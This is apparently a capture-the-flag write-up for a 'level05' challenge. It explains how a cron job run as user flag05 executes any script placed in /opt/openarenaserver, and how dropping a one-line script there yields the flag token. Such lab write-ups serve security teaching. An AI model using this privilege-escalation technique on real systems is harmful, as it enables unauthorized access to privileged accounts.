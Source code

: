 When logged on as `level05` we have a prompt telling us we have mail. We check `/var/mail` and find a file `level05`:
```
$> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
This is a cron instruction to launch the script `openarenaserver` as `flag05` every two minutes.

We check the script:
```
$> cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

It will run all the scripts in the `/opt/openarenaserver` folder, and delete them afterwards.  
To use this to our advantage, we write the following script in `/opt/openarenaserver`: `getflag >/tmp/flag`.  
We wait for the crontab to run (the script will be deleted), and then `cat /tmp/flag`: `Check flag.Here is your token : viuaaale9huek52boumoomiocv`
